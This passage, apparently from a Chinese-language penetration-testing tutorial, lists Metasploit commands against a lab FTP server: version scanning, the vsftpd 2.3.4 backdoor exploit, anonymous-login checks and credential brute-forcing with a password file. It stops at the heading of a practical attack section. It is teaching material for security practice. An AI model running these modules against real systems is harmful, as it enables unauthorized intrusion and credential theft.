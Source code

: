 ### 4. 基于 FTP 协议进行信息收集

```shell
use auxiliary/scanner/ftp/ftp_version # 使用指定模块 查看 FTP 版本
	set rhosts 192.168.18.137  # 设置参数
	run  # 执行
use  exploit/unix/ftp/vsftpd_234_backdoor  # 使用指定版本的模块
	set rhosts 192.168.18.137  # 设置参数
	run # 执行
```

FTP 匿名登陆：
```shell
use auxiliary/scanner/ftp/anonymous   # 使用指定模块
	set rhosts 192.168.18.137  # 设置参数
	run # 执行
	# 执行成功后。使用 FTP 软件进行连接
```

FTP 暴力破解：
```shell
use auxiliary/scanner/ftp/ftp_login  # 设置指定模块
	set rhosts 192.168.18.137  # 设置参数
	set  USERPASS_FILE  /home/jlb/root_userpass.txt  # 设置密码文件
	run # 执行
```



## 七、实战

攻击流程：